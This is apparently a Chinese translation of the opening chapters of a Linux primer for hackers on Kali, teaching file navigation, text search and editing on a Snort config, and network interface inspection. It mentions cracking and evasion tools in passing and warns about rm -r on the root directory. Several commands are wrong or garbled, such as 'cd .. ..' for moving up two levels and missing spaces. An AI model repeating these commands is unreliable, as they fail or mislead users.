root\@kali:/etc\# pwd

/etc

要在文件结构中向上移动一级（朝向文件结构的根目录，或/），我们使用cd后跟双点（..），如下所示：

root\@kali:/etc\# cd ..

root\@kali:/\# pwd

/

root\@kali:/\#

这会将我们从/ etc升级到/
root目录，但您可以根据需要向上移动多个级别。只需使用相同数量的双点对（..）作为要移动的级别数：

你会使用 .. 向上移动一级。

你会使用 .. .. 向上移动两级目录。

您可以使用 .. .. .. 向上移动三级，依此类推。

因此，例如要向上移动两级目录，请输入cd，然后输入两组双点，其间有空格：

kali \>cd .. ..

您还可以通过输入cd
/，从任何地方升级到文件结构中的根级别，其中/表示文件系统的根目录。

##### 使用ls列出目录的内容

要查看目录（文件和子目录）的内容，我们可以使用**ls**（list）命令。这与Windows中的dir命令非常相似。

kali \>ls

bin initrd.img media run var

boot initrd.img.old mnt sbin vmlinuz

dev lib opt srv vmlinuz.old

etc lib64 proc tmp

home lost+found root usr

此命令列出目录中包含的文件和目录。您也可以在任何特定目录上使用此命令，而不仅仅是您当前所在的目录，方法是在命令后列出目录名称，例如，**ls
/etc**显示/etc目录中的内容。

要获取有关文件和目录的更多信息，例如它们的权限、所有者、大小以及上次修改它们的时间，可以在**ls**之后添加**-l**参数（l代表long）。这通常被称为长列表。我们来试试吧：



如您所见，**ls
-l**为我们提供了更多信息，例如对象是文件还是目录、链接数、所有者、组、大小、创建或修改时的时间及其名称。

我通常在Linux中进行列出文件列表时添加-l参数，但是每个参数都需要自己添加。我们将在第5章中详细讨论**ls
-l**。

Linux中的某些文件是隐藏的，不会通过简单的**ls**或**ls
-l**命令显示。要显示隐藏文件，请添加小写**-a**参数，如下所示：

kali \>ls -la

如果平时（使用**ls**）你没有看到你期望看到的文件，那么值得尝试使用ls加上
–a参数。

#### *获取帮助*

几乎每个命令，应用程序或实用程序都在Linux中有一个专用的帮助文件，为其使用提供指导。例如，如果我需要使用最好的无线破解工具aircrackng的帮助，我只需输入aircrack-ng命令，然后输入
**- help** 命令:

kali \>aircrack-ng - help

请注意这里的双破折号（ - ）。Linux中的约定是在单词类选项参数之前使用双短划线（ -
），例如帮助，在单字母选项参数之前使用单个短划线（ - ），例如-h。

输入此命令时，您应该看到该工具的简短描述以及如何使用它的指导。在某些情况下，您可以使用-h或
-？ 转到帮助文件
例如，如果我在使用黑客最好的端口扫描工具nmap时需要帮助，我将输入以下内容：

kali \>nmap -h

不幸的是，虽然许多应用程序支持所有三个选项（ **- help**，**-h**和
**-？**），但无法保证您正在使用的应用程序。因此，如果其中一个选项不起作用，请尝试另一个。

##### 使用man引用手册页

除了帮助信息之外，大多数命令和应用程序都有一个手册（man）页面，其中包含更多信息，例如命令或应用程序的描述和概要。只需在命令、实用程序或应用程序之前键入**man**即可查看手册页。例如，要查看aircrackng的手册页，请输入以下内容：



这将打开aircrackng手册，为您提供比帮助信息更详细的信息。您可以使用**ENTER**键滚动浏览此手册文件，也可以分别使用**PG
DN**和**PG
UP**键向上和向下翻页。要退出，只需输入**q**（退出），然后返回命令提示符。

### 搜索查找

在你熟悉Linux之前，找到自己的方法会很令人沮丧，但是对一些基本命令和技术的了解将大大有助于使命令行更加友好。以下命令可帮助您从终端查找内容。

#### *使用locate搜索*

可能最容易使用的命令是**locate**。接下来是一个关键字，表示您想要查找的内容，此命令将遍历整个文件系统并找到该单词的每个匹配项。

例如，要查找aircrackng，请输入以下内容：

kali \>locate aircrack-ng

/usr/bin/aircrack­ng

/usr/share/applications/kali­aircrack­ng.desktop

/usr/share/desktop­directories/05­1­01­aircrack­ng.directory

­­snip­­

/var/lib/dpkg/info/aircrack­ng.mg5sums

但是，**locate**命令并不完美。有时，定位的结果可能是压倒性的，给你太多的信息。此外，**locate**使用的数据库通常每天只更新一次，因此如果您刚刚在几分钟或几小时前创建了一个文件，它可能会在第二天才显示在此列表中。了解这些基本命令的缺点，以便您可以更好地决定何时最好使用每个命令。

#### *用whereis查找二进制文件*

如果您要查找二进制文件，可以使用**whereis**命令找到它。此命令不仅返回二进制文件的位置，还返回其源和手册页（如果可用）。以下是一个例子：

kali \>whereis aircrack-ng

aircarck­ng: /usr/bin/aircarck­ng /usr/share/man/man1/aircarck­ng.1.gz

在这种情况下，**whereis**只返回aircrackng二进制文件和手册页，而不是每次出现aircrackng这个词。
更有效率和更有启发性，你不觉得吗？

#### *用which在PATH变量中查找二进制文件*

**which**命令更具体：它只返回Linux中PATH变量中二进制文件的位置。我们将在第7章中更仔细地查看PATH变量，但是现在知道PATH保存操作系统查找在命令行执行的命令的目录就足够了。例如，当我在命令行上输入aircrack-ng时，操作系统会查看PATH变量以查看它应该在哪些目录中查找aircrackng：

kali \>which aircrack-ng

/usr/bin/aircrack­ng

在这里，它能够在PATH变量中列出的目录中找到单个二进制文件。
至少，这些目录通常包含/usr/bin，但可能包括/usr/sbin以及其他一些目录。

#### *使用find执行更强大的搜索*

**find**命令是搜索实用程序中功能最强大且最灵活的。它能够在任何指定的目录中开始搜索，并查找许多不同的参数，当然包括文件名，还包括创建或修改的日期，所有者，组，权限和大小。

这是**find**的基本语法：

find *directory options expression*

因此，如果我想在根目录中搜索一个名为apache2(开放源码web服务器)的文件，我将输入以下命令:

kali \>find /➊ -type f➋ -name apache2➌

首先，➊是说明了开始搜索的目录，在这种情况下是 /
。然后➋我指定要搜索的文件类型，在本例中为f表示普通文件。最后，➌我给出了我正在搜索的文件的名称，在本例中为apache2。

此搜索的结果如下所示：

kali \>find / -type f -name apache2

/usr/lib/apache2/mpm­itk/apache2

/usr/lib/apache2/mpm­event/apache2

/usr/lib/apache2/mpm­worker/apache2

/usr/lib/apache2/mpm­prefork/apache2

/etc/cron.daily/apache2

etc/logrotate.d/apache2

/etc/init.d/apache2

/etc/default/apache2

find命令从文件系统（/）的顶部开始，遍历每个目录，在文件名中查找apache2，然后列出找到的所有实例。

正如您可能想象的那样，在每个目录中查找的搜索可能很慢。加快速度的一种方法是只查看您希望找到所需文件的所在目录。在这种情况下，比如我们正在寻找配置文件，因此我们可以在/etc目录中开始搜索，而Linux只会搜索其子目录。我们来试试吧：

kali \>find /etc -type f -name apache2

/etc/init.d/apache2

/etc/logrotate.d/apache2

/etc/cron.daily/apache2

这个更快的搜索只在/etc目录及其子目录中发现了apache2的出现。同样重要的是，要注意与其他一些搜索命令不同，find只显示确切的名称匹配。如果文件apache2有扩展名，例如apache2.conf，则搜索找不到匹配项。我们可以通过使用通配符来解决此限制，这使我们能够匹配多个字符。通配符有几种不同的形式：**\*
. , ?** 和 **[]** 。

让我们在/etc目录中查看以apache2开头并具有任何扩展名的所有文件。为此，我们可以使用以下通配符编写find命令：

kali \>find /etc -type f - name apache2.\*

/etc/apache2/apache2.conf

当我们运行此命令时，我们发现/etc目录中有一个文件符合**apache2.\***模式。当我们使用一个点后跟\*通配符时，终端会在文件名apache2之后查找任何扩展名。这对于查找您不知道文件扩展名的文件非常有用。

当我运行此命令时，我在/etc目录中找到两个以apache2开头的文件，包括apache2.conf文件。

#### *用grep过滤*

通常在使用命令行时，您需要搜索特定关键字。
为此，您可以使用**grep**命令作为过滤器来搜索关键字。

当输出从一个命令传送到另一个命令时，通常使用**grep**命令。我在第2章介绍了管道，但是现在，只要说Linux（和Windows就此问题）允许我们获取一个命令的输出并将其作为输入发送到另一个命令就足够了。这叫做管道，我们使用
\| 命令符号执行此操作（\|键通常位于键盘上的ENTER键上方）。

**ps**命令用于显示有关计算机上运行的进程的信息。我们将在第6章中更详细地介绍这一点，但是对于这个示例，假设我想看到我的Linux系统上运行的所有进程。在这种情况下，我可以使用**ps**（进程）命令，然后使用**aux**参数来指定要显示的进程信息，如下所示：

kali \>ps aux

这为我提供了在这个系统中运行的所有进程的列表 -
但是如果我只是想找到一个进程来查看它是否正在运行呢？

我可以通过将**ps**的输出信息，管道输出到**grep**并搜索关键字来完成此操作。例如，要查明apache2服务是否正在运行，我将输入以下内容。

kali \>ps aux \| grep apache2

root 4851 0.2 0.7 37548 7668 ? Ss 10:14 0:00 /usr/sbin/apache2 ­k start

root 4906 0.0 0.4 37572 4228 ? S 10:14 0:00 /usr/sbin/apache2 ­k start

root 4910 0.0 0.4 37572 4228 ? Ss 10:14 0:00 /usr/sbin/apache2 ­k start

­­snip­­

此命令告诉Linux显示我的所有服务，然后将该输出发送到**grep**，后者将查看关键字apache2的输出，然后仅显示apache2相关的输出，从而为我节省了大量时间和视力。

### 修改文件和目录

找到文件和目录后，您将希望能够对它们执行操作。在本节中，我们将介绍如何创建文件和目录，复制文件，重命名文件以及删除文件和目录。

#### *创建文件*

有许多方法可以在Linux中创建文件，但是现在我们只看两个简单的方法。第一个是**cat**，它是连接（concatenate）的缩写，意思是将各个部分组合在一起（不是你最喜欢的驯养猫科动物cat）。**cat**命令通常用于显示文件的内容，但也可用于创建小文件。要创建更大的文件，最好在文本编辑器（如vim，emacs，leafpad，gedit或kate）中输入代码，然后将其另存为文件。

##### 使用cat连接

**cat**命令后跟一个文件名将显示该文件的内容，但是为了创建一个文件，我们遵循带有重定向的cat命令，用
**\>** 符号表示，以及我们想要创建的文件的名称。以下是一个例子：

kali\> cat \> hackingskills

Hacking is the most valuable skill set of the 21st century!

当您按**ENTER**键时，Linux将进入交互模式并等待您开始输入该文件的内容。这可能令人费解，因为提示符（
kali
\>）消失了，但只要你开始打字，无论你输入什么都将写入文件内（在这种情况下，输入hackingskills）。在这里，我键入“Hacking
is the most valuable skill set of the 21st century!”。

要退出并返回提示，请按**CTRL­D**。然后，当我想查看文件hackingskills中的内容时，我输入以下内容：

kali\> cat hackingskills

Hacking is the most valuable skill set of the 21st century!

如果您不使用重定向符号，Linux将直接在终端打印出文件的内容。要向文件添加或附加更多内容，可以使用带有双重定向（\>\>）的**cat**命令，然后使用要添加到文件末尾的任何内容。以下是一个例子：

kali\> cat \>\> hackingskills

Everyone should learn hacking

Linux再次进入人机交互模式，等待输入内容附加到文件。当我键入“Everyone should
learn
hacking”并按**CTRL­D**，我回到了终端提示符。现在，当我用cat显示该文件的内容时，我可以看到该文件已经附加了内容“Everyone
should learn hacking”，如下所示：

kali \> cat hackingskills

Hacking is the most valuable skill set of the 21st century! Everyone should
learn hacking

如果我想用新内容信息覆盖文件，我可以简单地再次使用**cat**命令和一个重定向符号（\>），如下所示：

kali \> cat \> hackingskills

Everyone in IT security without hacking skills is in the dark

kali \> cat hackingskills

Everyone in IT security without hacking skills is in the dark

命令的含义如下：

cat \> hackingskills \#是打开或创建一个文件并(以人机交互模式)写入内容

cat hackingskills \#在控制台终端上打印查看文件内容

正如您在此处看到的，Linux进入交互模式，然后输入新文本然后退回到提示符。当我再次使用**cat**来查看文件的内容时，我发现我之前的单词已被最新文本覆盖。

##### 用touch创建文件

文件创建的第二个命令是**touch**。此命令最初开发是用来用户只需touch文件即可更改其某些详细信息，例如创建或修改日期。但是，如果该文件尚不存在，则此命令默认情况下会创建该文件。

 让我们用**touch**创建一个文件名为newfile：

kali \>touch newfile

现在，当我使用**ls
-l**查看目录的长列表时，我看到已经创建了一个名为**newfile**的新文件。
请注意，它的大小为0，因为**newfile**中没有内容。

#### *创建目录*

在Linux中创建目录的命令是**mkdir**，它是创建目录(make
directory)的缩写。要创建名为newdirectory的目录，请输入以下命令：

kali \>mkdir newdirectory

要导航进入到这个新创建的目录下，只需输入：

kali \>cd newdirectory

#### *复制文件*

要复制文件，我们使用**cp**命令。这会在新的目录位置创建文件的副本，并保留旧文件。

在这里，我们将使用**touch**在根目录中创建一个文件oldfile，并将其复制到/root/newdirectory，在进程中重命名并保留原始oldfile：

kali \>touch oldfile

kali \>cp oldfile /root/newdirectory/newfile

重命名文件是可选的，只需将您想要的名称添加到目录路径的末尾即可。如果在复制文件时不重命名该文件，则默认情况下该文件将保留原始名称。

当我们导航进入到newdirectory下时，我们看到有一个名为newfile的oldfile的精确副本：

kali \>cd newdirectory

kali \>ls

newfile oldfile

#### *重命名文件*

不幸的是，Linux没有专门用于重命名文件的命令（如Windows和其他一些操作系统那样），但它确实有**mv**（move）命令。

**mv**命令可用于将文件或目录移动到新的目录位置，或者只是为现有文件指定一个新名称（重命名）。要将newfile重命名为newfile2，请输入以下内容：

kali \>mv newfile newfile2

kali \>ls

oldfile newfile2

现在当您列出（**ls**）该目录时，您会看到newfile2而不是newfile，因为它已被重命名。你可以对目录做同样的事情。

#### *删除文件*

要删除文件，只需使用**rm**命令，如下所示：

kali \>rm newfile2

如果您现在在目录上执行长列表的**ls**命令，则可以确认该文件已被删除。

#### *删除目录*

删除目录的命令类似于删除文件的**rm**命令，但附加了**dir**（用于目录），如下所示：

kali \>rmdir newdirectory

rmdir:failed to remove 'newdirectory': Directory not empty

重要的是要注意**rmdir**不会删除非空的目录，但会给你一条警告信息“目录不为空”(Directory
not
empty)，如本例所示。在删除目录之前，必须先删除该目录下的所有内容。这是为了阻止您意外删除您不想删除的对象文件。

如果你想一次性删除一个目录及其下的内容，你可以在**rm**之后使用**-r**参数，如下所示：

kali \>rm -r newdirectory

但需要注意的是：要小心使用**-r**选项和**rm**，至少在开始时，因为错误地删除有价值的文件和目录非常容易。例如，在主目录（/）中使用**rm
-r**会删除那里的每一个文件和目录 – 这不是你想要的致命性的动作。

### 现在开始!

现在您已经掌握了一些在文件系统中导航切换的基本技能，您可以在进行（黑客游戏）之前稍微使用Linux系统。使用终端的最佳方法是立即尝试使用新发现的技能。在随后的章节中，我们将深入探讨我们的黑客游戏。

2
-

文本操作
--------

TEXT MANIPULATION

在Linux系统中，我们处理的一切都是文件，并且绝大多数都是文本文件；举个例子，在Linux系统中，所有的配置文件都是文本文件。所以我们只需要打开文件，更改文件的内容，保存文件，再重新启动应用就可以更改应用配置。

由于存在大量文本文件，操作文本在Linux系统管理和Linux应用中显得尤为重要。在这一章节，
你可以通过一些命令和技巧，实现在Linux系统下操作文本。

为了方便演示，我将使用世界顶尖的网络入侵检测系统（NIDS）Snort的文件，Snort
最早由Marty Roesch
开发，现在属于Cisco。NIDS经常被用于检测黑客入侵，所以如果你想成为成功的黑客，你必须了解
NIDS如何检测攻击和绕过检测的方法。

### 查看文件

如第1章所示，最基本的打印文本命令是**cat**，但是它有它的限制，使用**cat**命令打印位于/etc/snort的Snort
配置文件（snort.conf）（参见文本清单2-1）

kali \>cat /etc/snort/snort.conf

*清单 2-1: 在终端中打印snort.conf*

现在你的屏幕上应该显示了整个snort.conf文件，但这并不是最方便或最实际的使用这个文件的方法。

\# include \$SO_RULE_PATH/exploit.rules

\# include \$SO_RULE_PATH/exploit.rules

\# include \$SO_RULE_PATH/exploit.rules

\# include \$SO_RULE_PATH/exploit.rules

\# include \$SO_RULE_PATH/exploit.rules

\--*snip*--

\# event thresholding or suppressions commands...

kali \>

在接下来的两个小章节，我将向你展示**head** 和**tail**
命令。这是两种只显示部分文件内容的方法，用来更简单地查看关键点。

#### *查看开头*

如果你只是想查看文件开头，你可以使用**head**命令，这个命令默认打印文件的前10行。例如，下面这条命令会打印snort.conf的前10行。

kali \>head /etc/snort/snort.conf

\#----------------------------------------------

\# VRT Rules Packages Snort.conf

\#

\# For more information visit us at:

\--*snip*--

\#Snort bugs:bugs\@snort.org

如果你想看多于或少于默认的10行，在**head**命令后和文件前输入连接符（**-**）和你想要的数量。例如，如果你想看文件的前20行，你需要输入如清单
2-2 上面的命令。

kali \>head -20 /etc/snort/snort.conf

\#--------------------------------------------

\#VRT Rule Packages Snort.conf

\#

\#For more information visit us at:

\#.

\#.

\#.

\#Options : ­­enable­gre ­­enable­mpls ­­enable­targetbased

­­enable­ppm ­­enable­perfprofiling enable­zlib ­­enable­act live­response
­­enable­normalizer ­­enable­reload ­­enable­react

*清单 2-2: 在终端中打印snort.conf 的前20行*

你应该能在终端中看到snort.conf的前20行。

#### *查看结尾*

**tail**命令
和**head**命令相似。只是**tail**命令用于查看文件最后几行。使用**tail**查看snort.conf：

kali \>tail /etc/snort/snort.conf

\#include \$SO_RULE_PATH/smtp.rules

\#include \$SO_RULE_PATH/specific¬threats.rules

\#include \$SO_RULE_PATH/web¬activex.rules

\#include \$SO_RULE_PATH/web¬client.rules

\#include \$SO_RULE_PATH/web¬iis.rules

\#include \$SO_RULE_PATH/web¬miscp.rules

\#Event thresholding and suppression commands. See threshold.conf

注意这个命令打印了最后的一些include行，但没有打印所有的include行。因为和head相似，tail默认也是打印10行。你可以打印更多行如snort.conf最后20行。和使用head命令一样，你可以在tail命令和文件之间输入连接符（-）和你想要的行数。如以下清单
2-3

kali \>tail -20 /etc/snort/snort.conf

\#include \$SO_RULE_PATH/chat.rules

\#include \$SO_RULE_PATH/chat.rules \#include \$SO_RULE_PATH/chat.rules

­­snip­­

\#Event thresholding or suppression commands. See theshold.conf

*清单 2¬3: 在终端中打印snort.conf 的后20行*

现在我们可以一次性看到几乎所有的include行。

#### *标显行数*

有时-尤其是处理非常长的文件的时候-我们可能希望打印文件行号。因为snort.conf
超过600行，标上行号会有很大帮助，这样可以更容易地引用修改的位置并在以后返回到那个位置。

我们使用**nl**（number lines）命令打印行号。输入清单 2-4里的命令。

kali \>nl /etc/snort/snort.conf

612
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

613 \#dynamic library rules

614 \#include \$SO_RULE_PATH/bad¬traffic.rules

615 \#include \$SO_RULE_PATH/chat.rules

­­snip­­

630 \#include \$SO_RULE_PATH/web¬iis.rules

631 \#include \$SO_RULE_PATH/web¬misc.rules

*清单 2¬4: 在终端输出中显示行号*

现在每一行都有一个数字（代表行号），引用起来更方便。

### 使用GREP过滤文本

命令**grep**
大概是使用最广泛的文本操作命令。它可以让你过滤打印出来的文件内容。例如，如果你想查看snort.conf文件里面所有带有output单词的行，你可以使用**cat**
然后要求只打印那些行。(参见清单 2-5)。

kali \>cat /etc/snort/snort.conf \| grep output

\# 6) Con图 output plugins

\# Step \#6: Con图 output plugins

\# output unified2: filename merged.log, limit 128, nostamp, mpls_event_types,
vlan_event_types

output unified2: filename merged.log, limit 128, nostamp, mpls_event_types,
vlan_event_types

\# output alert_unified2: filename merged.log, limit 128, nostamp

\# output log_unified2: filename merged.log, limit 128, nostamp

\# output alert_syslog: LOG_AUTH LOG_ALERT

\# output log_tcpdump: tcpdump.log

*清单 2¬5: 打印被grep规定含有关键词或段落的行*

这个命令或先查看snort.conf 然后使用管道 (\|) 将它传递给 grep,
它将会把文件作为输入，寻找出现单词output的行，然后只打印这些行。**grep**命令是使用Linux中的一个非常强大和必要的命令，因为它可以节约搜索文件中每一个词或命令的时间。

#### *挑战: 使用grep，nl，tail，and head*

假设你想使用至少4个之前学过的命令打印 \# Step \#6: Con图 output plugins
前面5行，你该怎么做？（提示：除了我们学过的命令，还有很多其他选择。你可以使用Linux内置命令man来学习更多命令。例如，man
tail 会显示tail命令的帮助文档）。

有很多方法可以解决这个问题，我将向你展示通过更改那几行来实现其中一个方法，然后你需要寻找其他方法。

##### 第一步

kali \>nl/etc/snort.conf \| grep output

34 \# 6) Con图 output plugins

512 \# Step \#6: Con图 output plugins

518 \# output unified2: filename merged.log, limit 128, nostamp,
mpls_event_types, vlan_event_types

521 \# output alert_unified2: filename snort.alert, limit 128, nostamp

522 \# output log_unified2: filename snort.log, limit 128, nostamp

525 \# output alert_syslog: LOG_AUTH LOG_ALERT

528 \# output log_tcpdump: tcpdump.log

我们可以看到行 \# Step \#6: Con图 output plugins
是第512行，然后我们知道我们想要第512行前面的5行和第512行本身 (就是第507 到
512行)。

##### 第二步

kali \>tail -n+507 /etc/snort/snort.conf \| head -n 6

nested_ip inner, \\

whitelist \$WHITE_LIST_PATH/white_list.rules, \\ blacklist
\$BLACK_LIST_PATH/black_list.rules

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

\# Step \#6: Con图 output plugins

在这里，我们使用**tail**使文本从第507行开始，再把文本输出到head，然后我们返回文本开头的6行，从而获得Step
\#6 那行前的5行和Step \#6那行本身。

### 使用SED查找和替换

**sed**命令让你可以搜索出现的单词或字段然后在这些字段上做些什么。命令的名字是stream
editor（流编辑器）的缩写，因为它的概念和流编辑器是一致的。sed最基本的形式就像Windows系统里的查找和替换功能。

使用**grep**在snort.conf 里查找单词mysql，像这样：

kali \>cat /etc/snort/snort.conf \| grep mysql

include \$RULE_PATH/mysql.rules \#include \$RULE_PATH/server¬mysql.rules

你可以看到 **grep** 命令查找到mysql 出现过两次。

假设你想要**sed** 将每一个出现的mysql
替换成MySQL（记住，Linux大小写敏感）然后保存到文件snort2.conf。你可以输入清单2-6中的命令
：

kali \>sed s/mysql/MySQL/g /etc/snort/snort.conf \> snort2.conf

*清单 2¬6: 使用sed 查找替换关键词或字段*

**s**参数提供搜索，你先提供想要搜索的关键词 (mysql) 然后提供想要替换成的关键词
(MySQL), 用斜杠
(/)分开。**g**参数告诉Linux你希望全局替换，然后将结果保存到一个新文件snort2.conf。

现在，当你使用**grep**查找snort2.conf
中的mysql，你将看到没有找到mysql，但是当你搜索MySQL时，你将看到它出现了两次。

kali \>cat snort2.conf \| grep MySQL

\#include \$RULE_PATH/server¬MySQL.rules

如果你只想替换第一个出现的 mysql，你需要去掉末尾的g参数。

kali \>sed s/mysql/MySQL/ snort.conf \> snort2.conf

你也可以使用sed
命令查找替换第一个出现字段以外的任意位置出现的字段。例如，如果你想只替换第二个出现的mysql，只需要在命令末尾加上出现的次数（这里是2）。

kali \>sed s/mysql/MySQL/2 snort.conf \> snort2.conf

这个命令值影响第二个出现的mysql。

### 使用MORE和LESS查看文件

尽管**cat**是个打开文件和创建小文件的好工具，在打开大文件时它依然有它的限制。当你用cat打开snort.conf,时，文件将一直被打印直到文件结束。如果你想要收集任何信息，这就变得很不实用。

为了打开大文件，我们有另外两个查看工具：**more** 和**less**。

#### *使用more控制显示文件*

**more** 命令一次只显示一页文件，并且让你可以使用**ENTER**
键翻页。这是**man**命令使用的工具,现在我们来使用它。使用**more**命令打开snort.conf
（参见清单2-7） 。

kali \>more /etc/snort/snort.conf

­­snip­­

\# Snort build options:

\# Options: ­­enable­gre ­­enable­mpls ­­enable­targetbased

­­enable­ppm ­­enable­perfprofiling enable­zlib ­­enable­active

­response ­­enable­normalizer ­­enable­reload ­­enable­react

­­enable­flexresp3 \#

­­More­­(2%)

*清单 2-7: 使用more命令在终端里一次显示一页*

注意**more**
命令只显示一页然后就停止了，并且它会在左下角显示已经显示了多少内容（这里是2%）。按**ENTER**键查看额外的行或页。按**q**键（quit）退出more。

#### *使用less显示和过滤文件*

**less**命令和**more**命令非常相似，但是less有额外的功能，有句话叫 “Less is
more。”
使用less，你不但可以滚动查看一个文件，还可以过滤这个文件，清单2-8，使用less打开snort.conf
：

kali \>less /etc/snort/snort.conf

­­snip­­

\# Snort build options:

\# Options: ­­enable­gre ­­enable­mpls ­­enable­targetbased

­­enable­ppm ­­enable­perfprofiling enable­zlib ­­enable­active

­response ­­enable­normalizer ­­enable­reload ­­enable­react

/etc/snort/snort.conf

*清单 2-8: 使用less命令在终端里一次显示一页和过滤内容*

注意**less**在屏幕左下角高亮了文件的路径。如果你按下斜杠键（/），less会让你搜索文件里的字段。例如，当你开始设置Snort时，你需要先确定你想在何时向何处发送攻击警告输出。要想从配置文件中找到这一段，你只需要搜索output，像这样：

\# Snort build options:

\# Options: ­­enable­gre ­­enable­mpls ­­enable­targetbased

­­enable­ppm ­­enable­perfprofiling enable­zlib ­­enable­active

­response ­­enable­normalizer ­­enable­reload ­­enable­react

/output

这会立即将你带到第一个出现output的地方，并且高亮了output。然后你可以按**n**键（next）到下一个出现output的地方。

\# Step \#6: Con图 output plugins

\# For more information, see Snort Manual, Configuring Snort - Output Modules

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

unified2

\# Recommended for most installs

\# output unified2: filename merged.log, limit 128, nostamp, mpls_event_types,

Vlan_event_types

output unified2: filename snort.log, limit 128, nostamp, mpls_event_types,
vlan_event_types

\# Additional configuration for specific types of installs

\# output alert_unified2: filename snort.alert, limit 128, nostamp

\# output log_unified2: filename snort.log, limit 128, nostamp

\# syslog

\# output alert_syslog: LOG_AUTH LOG_ALERT

:

如你所见，less去掉了接下来出现的output并且高亮了所有搜到的字段。在这里,
它直接跳到Snort的输出段，真是方便啊！

### 总结

Linux系统有许多操纵文本的方法，每种方法都有其优缺点。在本章中，我们已经接触了一些最有用的方法，但是我建议您尝试每一种方法，并建立您自己的感觉和偏好。例如，我认为**grep**是不可缺少的，并且我广泛的使用**less**，但是您可能会有不同的观点。

3
-

分析和管理网络
--------------

ANALYZING AND MANAGING NETWORKS

了解网络对任何一个有追求的黑客都是至关重要的。在许多情况下，你将通过网络攻击某些东西，而优秀的黑客需要知道怎样去和目标网络连接和交互。例如，您可能需要连接到视图中隐藏了Internet协议（IP）地址的计算机，或者你可能需要将目标的域名系统(DNS)查询重定向到您的系统，这些任务都相对比较简单，但是都需要一点Linux网络知识。本章节将向你展示一些在你的网络黑客冒险过程中进行分析和管理网络的基本的Linux工具。

### 使用IFCONFIG分析网络

**ifconfig**命令是检测活动网络接口并与之交互最基本的工具之一。你可以简单地在终端（terminal）输入ifconfig命令来查询你所在的网络活动连接状态。请自己尝试一下，你应该看到和清单3­1相似的输出。

kali \>ifconfig

➊eth0Linkencap:EthernetHWaddr 00:0c:29:ba:82:0f

➋inet addr:192.168.181.131 ➌Bcast:192.168.181.255 ➍Mask:255.255.255.0

­­snip­­

➎lo Linkencap:Local Loopback inet addr:127.0.0.1 Mask:255.0.0.0

­­snip­­

➏wlan0 Link encap:EthernetHWaddr 00:c0:ca:3f:ee:02

*清单 3­1: 使用ifconfig获取网络信息*

正如你所看到的，ifconfig命令显示了有关系统上活动网络接口的一些有用信息。在输出的顶部是第一个侦测到的接口的名称
eth0
➊，它是Ethernet0的缩写（Linux从0开始计数而不是1）.这是第一个有线以太网连接接口。如果这里有更多的以太网接口，它们将使用同样的格式
(eth1, eth2 等等)。

接下来列出正在使用的网络类型 (Ethernet - 以太网)，然后是 HWaddr
和一个地址，这是在每个网络硬件上标记的全局唯一地址。在这种情况下，网络接口卡
network interface card (NIC), 通常指的是媒体访问控制 media access control (MAC)
地址。

第二行包含有关当前分配给它的IP地址信息的网络接口 (本例中为 192.168.181.131 ➋);
其次是 Bcast
➌，或者说广播地址，用于向子网上的所有IP发送信息的地址;最后是子网掩码 (Mask
➍)，用于确定IP地址的哪个部分连接到本地网络。你还可以在输出的这一部分中找到更多技术信息，但它超出了Linux网络基础章节的范围。

输出的下一部分显示另一个被称为 lo ➎的网络连接，它是环回地址（loopback
address）的缩写，并且有时称为localhost。这是个特殊的软件地址，可帮助你连接到自己的系统。未在系统上运行的软件和服务将无法被使用。你可以使用
lo
在你的系统测试某些内容，例如你自己的web服务器。本地主机通常用IP地址127.0.0.1表示。

第三个连接是接口 wlan0
➏。只有当你拥有无线接口或适配器时，才会出现这种情况。请注意，它还会显示该设备
(HWaddr)的MAC地址。

来自ifconfig的此信息使您可以连接并操作局域网 (LAN)
设置，这是黑客攻击的基本技能。

### 使用IWCONFIG检查无线网络设备 

如果你拥有一个无线网络适配器，你可以使用 **iwconfig**
命令来收集无线攻击的关键信息，例如适配器（网卡）的IP地址，MAC地址，它所处的模式等等。当你使用像
aircrack­ng 这样的无线攻击工具时，你可以从使用该命令来收集特别重要的信息开始。

使用终端(terminal)，让我们使用 **iwconfig**查看一些无线设备（详见清单 3­2）

kali \>iwconfig

wlan0 IEEE 802.11bg ESSID:off/any

Mode:Managed Access Point: Not Associated Tx­Power=20 dBm

­­snip­­

lo no wireless extensions

eth0 no wireless extensions

*清单 3­2: 使用 iwconfig来获取无线适配器（网卡）信息*

这里的输出告诉我们，唯一具有无线扩展的网络接口是wlan0，这正是我们所期望的。lo 和
eth0 都没有任何无线扩展。

对于 wlan0，我们了解了我们的设备能够支持的802.11 IEEE无线标准：b 和 g ，
两种早期的无线通信标准。现在大多数无线设备也包括 n ( n 是最新的标准)。

我们还从 iwconfig
中学习了无线扩展的模式(本例中为Mode:Manage，不同于monitor或promiscuous
mode)。在破解无线密码时，我们需要使用到混杂模式(promiscuous mode)。

